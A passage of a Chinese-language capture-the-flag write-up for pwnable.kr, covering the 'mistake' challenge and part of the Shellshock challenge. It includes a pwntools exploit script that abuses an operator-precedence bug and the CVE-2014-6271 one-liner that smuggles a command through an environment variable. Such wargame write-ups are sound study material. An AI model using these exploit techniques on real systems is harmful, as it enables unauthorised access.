 ```python
```

### 参考资料

http://blog.chinaunix.net/uid-28458801-id-3792828.html

https://www.cnblogs.com/wrjvszq/p/4199682.html

## 0x09 misktake

看了很久才反应过来是运算符优先级的问题

```c
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){//比较运算符优先级高于赋值运算符 fd始终为0 也即stdin
		printf("can't open password %d\n", fd);
		return 0;
	}
```

然后自己构造一组密码就行

比如 0000000000 -xor()-> 1111111111

### Exp

```python
#coding=utf-8
from pwn import *


shell=ssh(host='pwnable.kr',user='mistake',password='guest',port=2222)
#shell.download_file("./mistake.c")
#shell.download_file("./mistake")


io=shell.run('./mistake')
payload="0000000000"
io.sendafter("do not bruteforce...\n",payload)
payload="1111111111"
io.sendafter("input password : ",payload)
io.interactive()
```

## 0x0A  shellsock

CVE-2014-6271 Shellsock

利用方式：

```bash
env x='() { :;}; echo vulnerable'  bash -c "echo this is a test"
```

原理分析：https://blog.csdn.net/tinyletero/article/details/40261593
